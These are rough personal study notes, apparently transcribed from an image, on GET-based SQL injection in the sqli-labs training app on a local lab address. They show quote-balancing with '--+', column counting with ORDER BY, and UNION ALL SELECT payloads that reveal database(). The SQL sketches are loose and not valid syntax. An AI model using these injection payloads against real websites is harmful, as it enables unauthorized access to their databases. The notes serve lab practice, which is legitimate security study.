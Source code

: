 2. balance the query 

http://192.168.1.103/sqli-labs-master/Less-1/?id=1 {front end }

select id ='id' where name ='xyz' {background}


how to fix 

http://192.168.1.103/sqli-labs-master/Less-1/?id=1'   --+

select id ='1'    --+' where name ='xyz' {background}

Less-2 

in background 

select id=1  --+where name =xyz

how to fix query 

http://192.168.1.103/sqli-labs-master/Less-2/?id=1   --+

Less-3 

in background 
select id = ('1\') where name =('xyz')

--------------------------------------------
SQLI Through Get Based 

Less-1 

http://192.168.1.103/sqli-labs-master/Less-1/?id=1'   --+ {balanced query }

1. find total no of vulnerable columns 

order by 1{same page }

order by 2 {same page }


order by n {different page }

there is n-1 columns are prsenet

http://192.168.1.103/sqli-labs-master/Less-1/?id=1' order by 1  --+  

2. find exact no of vulnerable columns out of these n-1 

union all select 1,2,...n-1 

example 

union all select 1,2,3

select id=-1' union all select 1,2,3  --+where name =xyz 


executed - http://192.168.1.103/sqli-labs-master/Less-1/?id=-1' union all select 1,2,3 --+

3. execute any datbase sqli query there 

on that reflect no 

example - database()

